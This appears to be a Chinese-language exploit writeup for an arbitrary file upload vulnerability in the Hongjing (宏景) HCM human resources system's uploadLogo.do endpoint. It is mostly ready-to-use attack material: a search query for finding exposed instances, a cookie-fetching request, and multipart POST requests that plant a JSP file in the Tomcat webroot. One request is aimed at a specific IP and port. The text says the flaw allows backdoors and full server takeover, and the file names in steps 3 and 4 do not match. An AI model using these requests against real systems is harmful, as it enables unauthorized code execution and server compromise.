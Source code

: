 # 宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞
宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞，可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## hunter
```javascript
app.name="宏景 HCM"
```

## poc
1、获取cookie

```java
GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730773798906-c8ff7525-ae32-4aba-9f46-3941013a3ed1.png)

2、获取上传路径

```java
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=3199B98D03F1834F83CDAF45EA079D13
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"


------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730773863549-7fb35968-9e26-40b2-ae25-54b275c9d806.png)

3、文件上传

```java
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 8.137.169.49:7000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=163CC9FFC3CAAEAFCF07F29B294E99F0
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

D~3a~5cTomcat~39~5cwebapps~5cROOT~5ctest1.jsp
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730773904485-b641a3a5-ca59-4bc8-bfdf-e00f229fbd30.png)

4、访问/test123.jsp

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730773974901-93ca11e0-40df-493e-bee1-ac24a62bea27.png)



